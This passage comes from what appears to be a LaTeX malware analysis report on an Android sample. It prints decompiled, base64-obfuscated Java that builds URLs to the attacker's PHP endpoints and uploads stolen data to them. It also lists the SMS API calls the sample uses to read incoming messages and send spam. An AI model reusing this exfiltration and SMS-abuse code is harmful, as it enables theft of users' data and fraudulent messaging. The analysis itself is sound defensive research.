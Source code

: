 \documentclass[10pt,titlepage]{article}
\begin{document}
\begin{lstlisting}[label=mainactivityoncreate,caption=
Listing XX: Function \textit{naqsl.ebxcb.exu.Activity.ActivityGetSMS.fddo} builds the target url and calls the \textit{intR.fddo()} function which initiates the data upload.,frame=tb]
 public String fddo(Context context, String str, String str2) {
        String str3;
        String str4 = "PHRhZz48L3RhZz4="; // <tag></tag>
        try {
            if (m435catch(context)) {
                naqsl.ebxcb.exu.fddo.Cint intR = new naqsl.ebxcb.exu.fddo.Cint();
                String str5 = "";
                if (str.equals(m430int("MQ=="))) { // 1
                    str5 = m430int("L28xby9hMy5waHA="); // /o1o/a3.php
                }
                if (str.equals(m430int("Mg=="))) { // 2
                    str5 = m430int("L28xby9hNC5waHA="); // /o1o/a4.php
                }
                [...]
                if (str.equals(m430int("MjU="))) { // 25
                    str5 = m430int("L28xby9hMjUucGhw"); // /o1o/a25.php
                }
                try {
                    String fddo2 = fddo(context, m430int("dXJs")); // url
                    if (fddo2 == null) {
                        fddo2 = this.f602fddo.f473for;
                    }
                    StringBuilder sb = new StringBuilder();
                    sb.append(fddo2);
                    sb.append(str5);
                    str3 = intR.fddo(sb.toString(), str2);
\end{lstlisting}


This attack will be started from the \textit{naqsl.ebxcb.exu.ServiceCommands} Service (read more in chapter \ref{featureselection}.

\newpage
\subsubsection{SMS SPAM} \label{smsspam}
This is the full list of API calls of the malware to the \textit{android.telephony.SmsManager}. The list tells that the malware is interacting with the \textit{android.telephony.SmsManager} and is going to send SMS messages.

\begin{spverbatim}
Landroid/telephony/SmsManager;->divideMessage(Ljava/lang/String;)Ljava/util/ArrayList;
Landroid/telephony/SmsManager;->getDefault()Landroid/telephony/SmsManager;
Landroid/telephony/SmsManager;
      ->sendMultipartTextMessage(Ljava/lang/String;
                                Ljava/lang/String;
                                Ljava/util/ArrayList;
                                Ljava/util/ArrayList;
                                Ljava/util/ArrayList;
Landroid/telephony/SmsMessage;->createFromPdu([B)Landroid/telephony/SmsMessage;
Landroid/telephony/SmsMessage;->getDisplayMessageBody()Ljava/lang/String;
Landroid/telephony/SmsMessage;->getDisplayOriginatingAddress()Ljava/lang/String;
\end{spverbatim}
\begin{center}
Listing XX: List of API calls to \textit{android.telephony.SmsManager} showing that the malware create messages and sends them via the \textit{android.telephony.SmsManager.sendMultipartTextMessage} call.
\end{center}
\end{document}
